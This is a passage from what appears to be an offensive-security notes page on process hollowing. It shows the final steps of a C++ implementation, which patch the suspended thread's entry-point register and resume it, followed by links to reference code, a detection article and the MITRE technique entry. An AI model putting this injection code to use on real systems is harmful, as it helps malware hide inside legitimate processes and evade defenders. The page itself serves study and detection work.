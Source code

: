 ```cpp
        }
    }

    // get context of the dest process thread
    LPCONTEXT context = new CONTEXT();
    context->ContextFlags = CONTEXT_INTEGER;
    GetThreadContext(pi->hThread, context);

    // update dest image entry point to the new entry point of the source image and resume dest image thread
    DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
    context->Eax = patchedEntryPoint;
    SetThreadContext(pi->hThread, context);
    ResumeThread(pi->hThread);

    return 0;
}
```
{% endcode %}

## References

{% embed url="https://github.com/m0n0ph1/Process-Hollowing" caption="" %}

What an amazing resource for those interested in detecting process hollowing using memory forensics techniques:

{% embed url="https://cysinfo.com/detecting-deceptive-hollowing-techniques/" caption="" %}

{% embed url="https://attack.mitre.org/techniques/T1093/" caption="" %}

{% embed url="https://github.com/peperunas/injectopi/tree/master/FullCopy" caption="" %}

{% page-ref page="../../miscellaneous-reversing-forensics/pe-file-header-parser-in-c++.md" %}

